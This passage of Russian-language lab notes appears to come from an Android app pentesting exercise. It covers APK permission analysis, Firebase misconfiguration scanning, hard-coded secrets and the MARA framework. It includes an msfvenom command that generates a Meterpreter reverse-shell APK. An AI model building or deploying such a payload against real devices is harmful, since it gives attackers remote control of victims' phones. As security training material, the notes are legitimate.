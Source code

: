 В более ранних версиях Android принятие потенциально опасных групп разрешений было делом «все или ничего». Вы либо 
разрешали все разрешения, необходимые приложению для работы — до установки — либо отклоняли их все, что означало, 
что вы не могли установить приложение.

Я собираюсь проанализировать разрешения приложения APK, сгенерированного Metasploit.

`msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 R > /root/tryhackme.apk`

Хорошо, КАК?

Откройте AndroidManifest.xml с помощью вашего любимого текстового редактора (Gedit/Vim/subl и т. д.) или используйте 
cat и grep. 

Экземпляр(ы) Firebase : в прошлом году исследователи безопасности обнаружили незащищенные базы данных Firebase тысяч 
мобильных приложений iOS и Android, которые раскрывают более 100 миллионов записей данных, включая текстовые пароли, 
идентификаторы пользователей, местоположение и, в некоторых случаях, финансовые записи, такие как банковские и 
криптовалютные транзакции.

Сервис Firebase от Google — одна из самых популярных платформ бэкэнд-разработки для мобильных и веб-приложений, 
которая предлагает разработчикам облачную базу данных, хранящую данные в формате JSON и синхронизирующую их в режиме 
реального времени со всеми подключенными клиентами.

Как это определить ? 

Сканер FireBase. Скрипты помогают аналитикам безопасности выявлять неправильно настроенные экземпляры Firebase.
```commandline
git clone https://github.com/shivsahni/FireBaseScanner
python FireBaseScanner.py -p /path/apk
```
Конфиденциальные данные в коде : пользователи, пароли, внутренний IP-адрес и многое другое... 
Используя ваш любимый текстовый редактор, Gedit/Vim/subl и т. д., grep или GUI- декомпилятор, вернитесь к 
реверсированию и поэкспериментируйте с вашим любимым инструментом.

В реальной жизни существуют очень плохие практики программирования! Например: 

Как автоматизировать этот процесс?
Очень интересно делать это вручную, но в реальном пентесте время не на нашей стороне.


Статический анализ – Фреймворки
#### Структура MARA :

Является фреймворком для обратного проектирования и анализа мобильных приложений. Это инструмент, который объединяет 
часто используемые инструменты обратного проектирования и анализа мобильных приложений, чтобы помочь в тестировании 
мобильных приложений на предмет угроз безопасности мобильных устройств OWASP. Его цель — сделать эту задачу проще и 
удобнее для разработчиков мобильных приложений и специалистов по безопасности.
